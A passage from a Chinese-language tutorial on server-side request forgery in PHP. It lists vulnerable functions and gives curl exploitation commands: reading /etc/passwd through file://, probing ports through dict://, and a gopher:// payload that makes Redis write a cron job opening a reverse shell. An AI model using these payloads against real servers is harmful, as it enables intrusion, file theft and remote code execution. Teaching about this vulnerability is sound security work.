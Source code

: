 其他漏洞代码

PHP：`file_get_contents`、`fsockopen`

Java：org.apache.http.client.methods.HttpGet、java.net.HttpURLConnection

具体情况请看如下连接：

<http://www.joychou.org/index.php/web/javassrf.html>

发现了一个野生博主：

<https://joychou.org/>



# 0x02 SSRF in PHP

## 一、 漏洞简介

> SSRF(Server-side Request Forge, 服务端请求伪造)。
> 由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

## 二、 漏洞利用

自从煤老板的paper放出来过后，SSRF逐渐被大家利用和重视起来。

### 2.1 本地利用

拿PHP常出现问题的cURL举例。

可以看到cURL支持大量的协议，例如`file, dict, gopher, http`

```bash
➜ curl -V
curl 7.43.0 (x86_64-apple-darwin15.0) libcurl/7.43.0 SecureTransport zlib/1.2.5
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: AsynchDNS IPv6 Largefile GSS-API Kerberos SPNEGO NTLM NTLM_WB SSL libz UnixSockets
```

本地利用姿势：

```bash
# 利用file协议查看文件
curl -v 'file:///etc/passwd'

# 利用dict探测端口
curl -v 'dict://127.0.0.1:22'
curl -v 'dict://127.0.0.1:6379/info'

# 利用gopher协议反弹shell
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```
